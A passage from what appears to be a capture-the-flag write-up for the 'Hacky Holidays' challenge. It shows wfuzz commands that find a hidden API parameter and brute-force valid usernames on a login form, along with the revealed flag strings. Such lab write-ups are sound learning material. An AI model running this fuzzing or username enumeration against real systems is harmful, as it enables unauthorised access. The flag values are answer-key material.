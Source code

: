 This time I used `wfuzz` to try and find the missing parameter(s).

```bash
wfuzz --hc=400 -zfile,wordlists/params.txt https://hackyholidays.h1ctf.com/swag-shop/api/user?FUZZ=1
```

This revealed the `uuid` parameter:

{F1134540}

When I decoded the session data, there was a UUID (`C7DCCE-0E0DAB-B20226-FC92EA-1B9043`) included in the `user` parameter. This couldn't be a coincidence! I used it in the `uuid` parameter on the `user` endpoint:

```bash
$ curl https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043
{"uuid":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043","username":"grinch","address":{"line_1":"The Grinch","line_2":"The Cave","line_3":"Mount Crumpit","line_4":"Whoville"},"flag":"flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}"}% 
```

And there was the flag!

Flag: `flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}`

## Flag 5: Secure Login

The page at [/secure-login](https://hackyholidays.h1ctf.com/secure-login) consisted of a fairly minimal login form.

Trying SQL injection etc. yielded no results, but there was an interesting error message here when I entered some gibberish:

{F1134538}

The login page specifically told me when the supplied username was invalid, as opposed to giving a generic "login failed" message that didn't explain whether it was the username or password at fault. This means I could brute-force for a valid username.

I cracked open wfuzz again:

```bash
$ wfuzz -zfile,wordlists/usernames.txt --hs 'Invalid Username' -d 'username=FUZZ&password=blah' https://hackyholidays.h1ctf.com/secure-login

********************************************************
* Wfuzz 2.4.2 - The Web Fuzzer                         *
********************************************************

Target: https://hackyholidays.h1ctf.com/secure-login
Total requests: 22342

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                             
===================================================================

000005730:   200        36 L     84 W     1724 Ch     "access"  
```
